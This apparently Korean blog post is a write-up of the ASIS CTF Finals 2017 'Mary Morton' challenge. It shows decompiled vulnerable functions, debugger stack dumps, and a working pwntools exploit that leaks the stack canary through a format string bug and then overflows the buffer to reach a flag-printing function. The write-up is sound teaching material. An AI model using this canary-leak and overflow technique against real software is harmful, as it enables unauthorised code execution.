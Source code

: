 ```yaml
---
layout: post
title: "ASIS CTF Finals 2017 - Mary Morton"
date: 2018-11-08
excerpt: "Simple FSB + BOF"
tags: [write-up]
comments: true
---
```

zerostorage를 풀다가 corruption 때문에 멘탈이 나가서 쉬운거 하나 잡았습니다..
* * *
```
~/pwn/prob/mary_morton st4nw@trust 20s
❯ checksec mary_morton 
[*] '/home/st4nw/pwn/prob/mary_morton/mary_morton'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
우선 SSP가 적용되어 있는 점을 고려해야할 것 같습니다.

```
~/pwn/prob/mary_morton st4nw@trust
❯ ./mary_morton
Welcome to the battle ! 
[Great Fairy] level pwned 
Select your weapon 
1. Stack Bufferoverflow Bug 
2. Format String Bug 
3. Exit the battle
```
메인 메뉴에서는 1번 Stack BOF와 2번 FSB 중 하나를 고를 수 있습니다.

#### 1. Stack Bufferoverflow
```c
unsigned __int64 sub_400960()
{
  char buf; // [rsp+0h] [rbp-90h]
  unsigned __int64 v2; // [rsp+88h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  memset(&buf, 0, 0x80uLL);
  read(0, &buf, 0x100uLL);
  printf("-> %s\n", &buf);
  return __readfsqword(0x28u) ^ v2;
}
```
0x88 크기의 버퍼에 0x100 만큼 입력받아 BOF가 발생합니다.

canary를 leak하면 eip를 덮을 수 있을 것 같습니다.

#### 2. FSB
```c
unsigned __int64 sub_4008EB()
{
  char buf; // [rsp+0h] [rbp-90h]
  unsigned __int64 v2; // [rsp+88h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  memset(&buf, 0, 128uLL);
  read(0, &buf, 0x7FuLL);
  printf(&buf, &buf);
  return __readfsqword(0x28u) ^ v2;
}
```
FSB를 대놓고 줍니다.

### Exploit

canary를 leak하면 eip를 덮을 수 있기에 FSB로 leak를 하는 것이 우선입니다.

이를 위해 FSB 이후 canary 값을 검증하는 루틴에 bp를 걸고 분석했습니다.

```
pwndbg> r
Starting program: /home/st4nw/pwn/prob/mary_morton/mary_morton 
Welcome to the battle ! 
[Great Fairy] level pwned 
Select your weapon 
1. Stack Bufferoverflow Bug 
2. Format String Bug 
3. Exit the battle 
2
%p
0x7fffffffded0
```
%p를 입력한 결과 0x7fffffffded0를 출력합니다. 스택에서 이 값과 canary가 얼마나 떨어져있는지 알아보겠습니다.

```
► 0x40094a    mov    rax, qword ptr [rbp - 8]
  0x40094e    xor    rax, qword ptr fs:[0x28]
  0x400957    je     0x40095e
pwndbg> ni
pwndbg> p $rax
$5 = -8380890034417386496
```
rax(canary)는 -8380890034417386496 = 0x8BB118EAE4F0BC00 입니다. 현재 스택의 값을 보겠습니다.

```
.
.
0x7fffffffde90:	0x00007fffffffded0	0x0000000000000000 -> printed data
0x7fffffffdea0:	0x0000000000000000	0x00007fffffffdeb0
0x7fffffffdeb0:	0x0000000000000000	0x00007ffff7ffe168
0x7fffffffdec0:	0x0000000000000003	0x0000000000400949
0x7fffffffded0:	0x00000000000a7025	0x0000000000000000
0x7fffffffdee0:	0x0000000000000000	0x0000000000000000
0x7fffffffdef0:	0x0000000000000000	0x0000000000000000
0x7fffffffdf00:	0x0000000000000000	0x0000000000000000
0x7fffffffdf10:	0x0000000000000000	0x0000000000000000
0x7fffffffdf20:	0x0000000000000000	0x0000000000000000
0x7fffffffdf30:	0x0000000000000000	0x0000000000000000
0x7fffffffdf40:	0x0000000000000000	0x0000000000000000
0x7fffffffdf50:	0x0000000000000000	0x8bb118eae4f0bc00 -> canary
0x7fffffffdf60:	0x00007fffffffdfa0	0x00000000004008b8
0x7fffffffdf70:	0xff00000000000000	0x00007fffffffe098
0x7fffffffdf80:	0x00007fffffffe088	0x0000000100400730
0x7fffffffdf90:	0x00000002ffffe080	0x8bb118eae4f0bc00 -> canary
0x7fffffffdfa0:	0x0000000000400a50	0x00007ffff7a2d830
.
.
```
출력된 값에서 얼마 떨어지지않은 곳에 canary가 두 군데 존재합니다.

FSB에 입력할 값으로 %23$p 혹은 %31$p을 입력하면 leak이 가능합니다.

system("/bin/cat flag")하는 함수가 존재하고 canary의 값까지 구했으니 이제 남은 것은

1. Stack BOF에서 터지는 BOF로 간단하게 플래그를 읽는 것입니다.

exp.py
```python
from pwn import *

p = process('./mary_morton')
context.log_level = 'debug'

p.recvuntil('3. Exit the battle')

payload = "%23$p"

p.sendline('2')
p.sendline(payload)

p.recv()
p.recvuntil('0x')
canary = int(p.recvline(), 16)

log.info('Canary : ' + str(hex(canary)))

p.recvuntil('3. Exit the battle')

payload = "A" * 136

payload += p64(canary)
payload += "A" * 8
payload += p64(0x4008da)

p.sendline('1')
p.sendline(payload)

p.interactive()
```

```
~/pwn/prob/mary_morton st4nw@trust
❯ python exp.py
[+] Starting local process './mary_morton': pid 9000
[DEBUG] Received 0x8f bytes:
    'Welcome to the battle ! \n'
    '[Great Fairy] level pwned \n'
    'Select your weapon \n'
    '1. Stack Bufferoverflow Bug \n'
    '2. Format String Bug \n'
    '3. Exit the battle \n'
[DEBUG] Sent 0x2 bytes:
    '2\n'
[DEBUG] Sent 0x6 bytes:
    '%23$p\n'
[DEBUG] Received 0x5a bytes:
    '0xdad0fa5f85ddaf00\n'
    '1. Stack Bufferoverflow Bug \n'
    '2. Format String Bug \n'
    '3. Exit the battle \n'
[*] Canary : 0xdad0fa5f85ddaf00
[DEBUG] Sent 0x2 bytes:
    '1\n'
[DEBUG] Sent 0xa1 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000080  41 41 41 41  41 41 41 41  00 af dd 85  5f fa d0 da  │AAAA│AAAA│····│_···│
    00000090  41 41 41 41  41 41 41 41  da 08 40 00  00 00 00 00  │AAAA│AAAA│··@·│····│
    000000a0  0a                                                  │·│
    000000a1
[*] Switching to interactive mode
 
[DEBUG] Received 0x8c bytes:
    '-> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\n'
-> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
[DEBUG] Received 0x2f bytes:
    'ASIS{An_impROv3d_v3r_0f_f41rY_iN_fairy_lAnds!}\n'
ASIS{An_impROv3d_v3r_0f_f41rY_iN_fairy_lAnds!}
[*] Got EOF while reading in interactive
$  
```
